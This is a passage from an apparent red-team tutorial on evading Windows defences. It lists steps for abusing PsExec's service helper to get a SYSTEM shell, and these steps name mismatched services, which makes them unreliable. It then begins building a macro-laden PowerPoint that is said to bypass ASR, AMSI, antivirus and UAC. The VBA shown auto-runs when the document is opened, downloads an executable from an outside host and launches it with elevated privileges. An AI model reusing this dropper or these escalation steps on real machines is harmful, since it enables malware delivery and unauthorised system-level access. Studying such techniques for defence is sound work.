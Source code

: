 #### Step-by-Step: How PsExec can still be abused:

1. **Extract PSEXESVC.exe manually**:



- When PsExec runs, it drops a hidden service helper called **PSEXESVC.exe** inside `C:\Windows`.
- we can **manually extract it** from an earlier run or download it yourself.

**2. Manually Install PSEXESVC.exe:**

- Copy `PSEXESVC.exe` to some writable directory, e.g., `%TEMP%`.
- Install it **manually** by running:
- `PSEXESVC.exe -install`

**Start the Service Yourself:**

- `sc start PSINFSVC`
- (`PSINFSVC` = PsInfo Service = The manually installed service.)

**Use PsExec Again Successfully**:

- Now we can run:
- `psexec -s -i cmd.exe`

**Result:** We get a SYSTEM shell, because the service is already trusted and running.

* * *

### Bypass ALL Scenario

As a grand finally let’s enable all ASR rules and write a malicious PowerPoint document which:

- Is obfuscated
- Bypasses ASR •
- Bypasses AMSI &amp; Antivirus
- Bypasses UAC
- Downloads and Drop putty and run it with elevated privileges

Below are several (non-obfuscated) code snippets to understand what happens.

#### 1. Auto-launch When Macro is Enabled

```
Sub AutoOpen()
    Dim myURL As String
    Dim realPath As String
    myURL = "https://the.earth.li/~sgtatham/putty/latest/w32/putty.exe"
    realPath = Environ("TEMP") & "\dropped.exe"
    
    Download myURL, realPath
    BypassUACExec realPath
End Sub
```

- `AutoOpen` automatically triggers when the victim opens the file (if macros are enabled).
- Downloads PuTTY to `%TEMP%\dropped.exe`.
- Calls `BypassUACExec` to execute it **with elevated privileges**.
